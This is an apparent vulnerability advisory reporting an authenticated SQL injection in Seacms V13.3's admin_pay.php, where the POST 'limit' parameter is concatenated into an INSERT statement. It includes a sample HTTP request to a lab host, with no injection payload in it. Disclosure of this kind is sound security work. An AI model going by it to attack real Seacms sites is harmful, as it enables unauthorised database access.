


Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/


The vulnerability is located in the admin_pay.php file, go straight to line 10, check if the '$action' variable is equal to the string 'add', if '$action' is' add ', get the values of 'num' and 'limit' from the POST request, and go straight to line 18, Construct an SQL insert statement, insert 'key', 'limit', current time (' NOW() '), and some other default values into the database 'sea_cck' table, from which you can see that there is a concatenation of SQL statements, and you can request the limit parameter, there are variables that can be controlled, causing SQL injection problems.





```
POST /seacms/bf6nbn/admin_pay.php?action=add HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/bf6nbn/admin_pay.php?page=3&cstatus=&ckey=1&climit=
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

num=10&limit=100&selectBtn=%E7%94%9F+%E6%88%90
```





